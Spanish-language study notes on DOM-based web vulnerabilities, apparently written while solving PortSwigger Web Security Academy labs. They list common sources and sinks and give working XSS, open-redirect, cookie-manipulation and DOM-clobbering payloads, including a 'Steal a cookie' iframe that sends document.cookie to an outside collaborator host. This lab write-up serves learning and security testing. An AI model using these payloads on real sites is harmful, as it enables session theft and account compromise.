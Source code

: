 ## ¿Qué es el DOM?

El **Document Object Model (DOM)** es una representación jerárquica de los elementos existentes en una página web. Los sitios web pueden utilizar Javascript para manipular nodos y objectos del DOM, así como sus propiedades.

La manipulación del **DOM** en sí no es un problema, de hecho, es una parte integral de cómo funcionan los portales web modernos. Sin embargo, **Javascript** puede manejar datos de forma poco seguro permitiendo habilitar que sea vulnerable a diferentes tipos de ataques.

Las vulnerabilidades basadas en **DOM** surgen cuando un sitio web contiene **Javascript** que toma un valor que el atacante puede controlar, conocido como **fuente** (**source** en inglés) y lo pasa a una **función peligrosa**, conocida como **sumidero** (**sink** en inglés).

* Source: `location.search`
* Sink: `eval()` OR Sink HTML: `document.body.InnerHTML`

### Fuentes comunes

```
document.URL
document.documentURI
document.URLUnencoded
document.baseURI
location
document.cookie
document.referrer
window.name
history.pushState
history.replaceState
localStorage
sessionStorage
IndexedDB (mozIndexedDB, webkitIndexedDB, msIndexedDB)
Database
```
### Sumideros Comunes:

```
document.write()
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent
```

<hr>

- Source: **AddEventListener** `Primeros 3 labs, resumidos.`
	- LAB: DOM XSS Web Messages
    - `<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">`

	* LAB: DOM XSS Web Messages Javascript:url
    - `<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">`

	*  LAB: DOM XSS Web Messages & **JSON** Parse
    - `<iframe src=https://YOUR-LAB-ID.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>`

- Check for DOM redirections (parameters hidden in source code)
- Cookies containing URLs

<hr>
### Steal a cookie:

```
<iframe src="https://TARGET.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=fetch(`https://COLLABORATOR.com?collector=`+btoa(document.cookie))>','*')">
```

### DOM XSS using web messages

```
Notice that the home page contains an addEventListener() call that listens for a web message.

Go to the exploit server and add the following iframe to the body. Remember to add your own lab ID:

<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```

### DOM XSS using web messages and a JavaScript URL

```
Notice that the home page contains an addEventListener() call that listens for a web message. 
The JavaScript contains a flawed indexOf() check that looks for the strings "http:" or "https:" anywhere within the web message. It also contains the sink location.href.

<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```

### DOM XSS using web messages and JSON.parse

```
Notice that the home page contains an event listener that listens for a web message. This event listener expects a string that is parsed using JSON.parse(). In the JavaScript, we can see that the event listener expects a type property and that the load-channel case of the switch statement changes the iframe src attribute.

<iframe src=https://YOUR-LAB-ID.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

### DOM Based Open Redirection

```js
//PAYLOAD: & `Location.href`
The blog post page contains the following link, which returns to the home page of the blog:

<a href='#' onclick='returnURL' = /url=https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>

//Y mandamos la URL para que cargue el server exploit así:
* https://YOUR-LAB-ID.web-security-academy.net/post?postId=4&url=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/
```

### DOM Based Cookie Manipulation

```js
//PAYLOAD: & `Cookie: SameSite=None`
//El problema recae en que la cookie es controlable por el atacante
1. Notice that the home page uses a client-side cookie called `lastViewedProduct`, whose value is the URL of the last product page that the user visited.
2. Go to the exploit server and add the following `iframe` to the body, remembering to replace `YOUR-LAB-ID` with your lab ID:

<iframe src="https://YOUR-LAB-ID.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://YOUR-LAB-ID.web-security-academy.net';window.x=1;">

//encoded a URL, en caso tal de que no funcionara así.

```

### DOM Clobbering to Enable XSS

```js
//La sección de comentarios implementa un script vulnerable el cual usa sumideros inseguros como xmlHttpRequest
//En la seccion de comentarios HTML tiré un: <img src=x onerror=alert(1)> y coló WTFjaja, pero la solución real es: 
<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">

//Está parseado en HTML pero en esencia es lo mismo que la teoria, en este caso se tomo la variable de `defaultAvatar`

- DomPurify allows the protocol `cid:`, which doesn't encode double quote (`"`): `<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">`

```

Eso es todo de dom, ave maría.